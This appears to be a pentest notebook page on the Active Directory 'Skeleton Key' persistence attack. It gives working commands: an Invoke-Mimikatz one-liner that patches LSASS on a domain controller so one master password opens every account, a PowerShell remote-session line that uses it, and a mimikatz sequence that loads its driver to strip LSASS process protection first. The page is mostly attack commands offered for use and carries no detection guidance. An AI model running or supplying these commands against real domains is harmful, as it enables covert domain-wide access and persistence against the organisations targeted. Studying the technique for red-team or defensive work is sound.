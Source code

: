 # Skeleton Key

Skeleton key is a persistence technique where it is possible to inject malware to the Domain Controller LSASS process so that it allows access as any user with a single password.

## Important to know:

* Require Domain Admin privileges
* Skeleton Key is not persistent across reboots
* Skeleton Key is not opsec safe and is also known to cause issues with AD CS

## Inject a skeleton key

```powershell
# needs DA privs
# password would be "mimikatz"
Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' 
```

## Access any machine

```powershell
Enter-PSSession -Computername dcorp-dc -credential dcorp\Administrator
```

### LSASS running as a protected process

In case Lsass is running as a protected process, we can still use Skeleton Key but it needs the mimikatz driver (mimidriv.sys) on disk of the target DC

```
mimikatz # privilege::debug
mimikatz # !+
mimikatz # !processprotect /process:lsass.exe /remove
mimikatz # misc::skeleton
mimikatz # !-
```

more detailed&#x20;

{% embed url="https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/persistence/skeleton-key-attack" %}
